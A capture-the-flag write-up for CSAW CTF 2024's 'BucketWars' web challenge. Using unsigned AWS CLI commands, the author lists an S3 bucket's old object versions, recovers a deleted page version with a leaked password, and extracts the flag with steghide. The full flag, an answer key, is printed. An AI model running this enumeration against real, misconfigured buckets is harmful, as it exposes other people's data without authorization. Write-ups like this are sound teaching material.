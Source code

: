 ```yaml
---
name: BucketWars (2024)
event: CSAW CTF 2024
category: Web
description: Writeup for BucketWars (Web) - CSAW CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# BucketWars

## Description

> let's keep our storage simple -- and remember we don't make mistakes in these parts.

## Solution

Visit website and find five different versions at `/versions.html`.

{% code overflow="wrap" %}

```
https://bucketwars.ctf.csaw.io/index_v1.html
https://bucketwars.ctf.csaw.io/index_v2.html
https://bucketwars.ctf.csaw.io/index_v3.html
https://bucketwars.ctf.csaw.io/index_v4.html
https://bucketwars.ctf.csaw.io/index.html
```

{% endcode %}

Error when trying to access an invalid file, e.g. https://bucketwars.ctf.csaw.io/dgdfgdfgfdg.html

{% code overflow="wrap" %}

```
404 Not Found

    Code: NoSuchKey
    Message: The specified key does not exist.
    Key: dgdfgdfgfdg.html
    RequestId: J5QS9TW2YM0210EH
    HostId: 8Yt6lsFV9VR0evraLVRz7D0sEwIN4AzW6eQnjEBMAdOGMu80sI/PiVRqAYrfmLEb+E+8DuJihAo=

An Error Occurred While Attempting to Retrieve a Custom Error Document

    Code: NoSuchKey
    Message: The specified key does not exist.
    Key: https://s3.us-east-2.amazonaws.com/bucketwars.ctf.csaw.io/404.jpg
```

{% endcode %}

Can try to list the s3 bucket contents, but no permissions.

{% code overflow="wrap" %}

```bash
aws s3 ls s3://bucketwars.ctf.csaw.io/ --no-sign-request

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

{% endcode %}

The most recent version (v5) has a hint:

> Looking deeper into the stolen bucket only reveals past versions of our own selves one might muse

{% code overflow="wrap" %}

```bash
aws s3api list-object-versions --bucket bucketwars.ctf.csaw.io --no-sign-request > output.txt
```

{% endcode %}

There's 300 lines of JSON but here's a snippet.

{% code overflow="wrap" %}

```json
{
	"ETag": "\"07bb73d00569d07588c0b5661438d9d8\"",
	"Size": 1118,
	"StorageClass": "STANDARD",
	"Key": "index_v1.html",
	"VersionId": "xueLuUGnF1kS6dcOaspeUUZN0N4Cdlsq",
	"IsLatest": true,
	"LastModified": "2024-08-05T01:59:50+00:00"
},
{
	"ETag": "\"d3f2f46b2f1814b636cb1c7991a1a328\"",
	"Size": 1290,
	"StorageClass": "STANDARD",
	"Key": "index_v1.html",
	"VersionId": "ToA1N09DluJkPVFATO6IwOTZzhDkva09",
	"IsLatest": false,
	"LastModified": "2024-08-05T00:26:48+00:00"
},
{
	"ETag": "\"5c3665517b3e538158ab09b15a647dbb\"",
	"Size": 1456,
	"StorageClass": "STANDARD",
	"Key": "index_v1.html",
	"VersionId": "zCVAK4kjygiOnWWGGi1BZOR87Ef09Z0L",
	"IsLatest": false,
	"LastModified": "2024-08-05T00:20:20+00:00"
},
{
	"ETag": "\"9a5824c100e6975c203e2ae517c9ec0d\"",
	"Size": 1555,
	"StorageClass": "STANDARD",
	"Key": "index_v1.html",
	"VersionId": "CFNz2JPIIJfRlNfnVx8a45jgh0J90KxS",
	"IsLatest": false,
	"LastModified": "2024-08-05T00:20:08+00:00"
},
{
	"ETag": "\"130f7fdffa9c3a0e24853b651dfe07ac\"",
	"Size": 1571,
	"StorageClass": "STANDARD",
	"Key": "index_v1.html",
	"VersionId": "t6G6A20JCaF5nzz6KuJR6Pj1zePOLAdB",
	"IsLatest": false,
	"LastModified": "2024-08-05T00:19:57+00:00"
}
```

{% endcode %}

We have five different versions of the `index_v1.html` file, but all the other four versions only have a single entry.

It's also worth noting that `v1` was the only page with no image, only the string: `YIKES`. Presumably, we need to recover the old versions of `index_v1.html` 🤔

We already have the latest, so we try the other 4. The first two had nothing but version 4, which is interesting.

{% code overflow="wrap" %}

```bash
aws s3api get-object --bucket bucketwars.ctf.csaw.io --key index_v1.html --version-id CFNz2JPIIJfRlNfnVx8a45jgh0J90KxS index_v1_version4.html --no-sign-request
```

{% endcode %}

{% code overflow="wrap" %}

```json
{
    "AcceptRanges": "bytes",
    "LastModified": "2024-08-05T00:20:08+00:00",
    "ContentLength": 1555,
    "ETag": "\"9a5824c100e6975c203e2ae517c9ec0d\"",
    "VersionId": "CFNz2JPIIJfRlNfnVx8a45jgh0J90KxS",
    "ContentType": "text/html",
    "ServerSideEncryption": "AES256",
    "Metadata": {}
}
```

{% endcode %}

It contains a password in the HTML: `versions_leaks_buckets_oh_my`.

{% code overflow="wrap" %}

```html
<!-- Note to self: be sure to delete this password: versions_leaks_buckets_oh_my -->
```

{% endcode %}

Version 5 contains a new URL.

{% code overflow="wrap" %}

```html
<img src="https://asdfaweofijaklfdjkldfsjfas.s3.us-east-2.amazonaws.com/sand-pit-1345726_640.jpg" />
```

{% endcode %}

The last bit took me too long because I didn't expect stego in a web challenge 😆 Pair those two pieces of information with `steghide`, and you get the flag.

{% code overflow="wrap" %}

```bash
steghide extract -sf sand-pit-1345726_640.jpg -p versions_leaks_buckets_oh_my
wrote extracted data to "flag.txt".
```

{% endcode %}

Flag: `csawctf{cl0d_Bu4K3tz_AR3_F4Ir_g$m3}`
